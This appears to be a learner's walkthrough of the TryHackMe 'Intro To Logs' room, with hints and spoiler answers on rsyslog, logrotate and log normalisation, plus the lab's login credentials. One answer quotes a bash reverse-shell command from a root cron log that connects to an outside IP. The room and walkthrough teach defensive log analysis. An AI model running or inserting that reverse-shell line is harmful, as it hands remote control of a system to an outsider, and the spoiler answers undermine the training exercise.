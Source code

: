 # TryHackMe: Intro To Logs Walkthrough

## Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

## SOC 2 Learning Pathway

### Introduction

Some nice graphics and a brief outline of learning outcomes.

### Expanding Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are here

login: damianhall
password: Logs321!

#### Q1:  What is the name of your colleague who left a note on the Desktop?

##### cat Desktop/note.txt (or open in the GUI)

>! Perry

#### Q2: What is  full path to the suggested log file for initial investigation?

##### look in cat output of the note!

>! /var/log/gitlab/nginx/access.log

### Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

#### Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?

##### Task 2 was discussing an Nginx server which is a web server...

>! Web Server Log

#### Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?

##### The materials clearly list what format the Nginx web server uses by default.

>! combined

### Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

#### Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?

##### after you have done the exercises you should be able to view the log file - so run: cat /var/log/websrv-02/rsyslog_sshd.log Disconnected from invalid user ...

>! stansimon

#### Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?

##### cat /etc/rsyslog.d/99-websrv-02-cron.conf

>! 10.10.10.101

#### Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?

#####  cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'

>! /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

### Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

#### Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?

##### cat /etc/logrotate.d/99-websrv-02_cron.conf - if you followed the practical activity it should be pretty clear. 

>! 24

#### Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?

##### See the output for the last question.

>! hourly

### Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

#### Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?

##### OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.

>! No date field

#### What is the process of standardising parsed data into a more easily readable and query-able format?

##### This is what we did to the log file with all those awk sed and sort and uniq commands...

>! normalisation

#### What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?

##### This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log. Forgive my grammar the gerund form would be more natural here but the answer is the noun.

>! enrichment

### Conclusion

I learned *a lot* from this room. And it has already me off on exploring the powerful awk and sed programs.
